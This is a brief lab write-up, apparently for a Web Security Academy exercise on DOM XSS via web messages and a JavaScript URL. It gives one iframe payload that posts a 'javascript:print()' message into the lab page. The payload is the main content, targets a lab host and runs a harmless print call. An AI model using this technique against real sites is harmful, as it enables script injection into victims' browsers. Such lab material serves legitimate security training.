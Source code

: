 # DOM XSS using web messages and a JavaScript URL

![image](https://user-images.githubusercontent.com/60841283/153745891-1abc46fc-6209-47cd-9758-d4ed7835029b.png)

Payload in exploit server (in Body section) :- 
```html
<iframe src="https://aca41fb21f22be89c08920d7000500d9.web-security-academy.net/#" onload="this.contentWindow.postMessage('javascript:print()//http:','*')"></iframe>
```

![image](https://user-images.githubusercontent.com/60841283/153745846-b911ffad-70b0-4fc3-a33d-85a6b54741af.png)
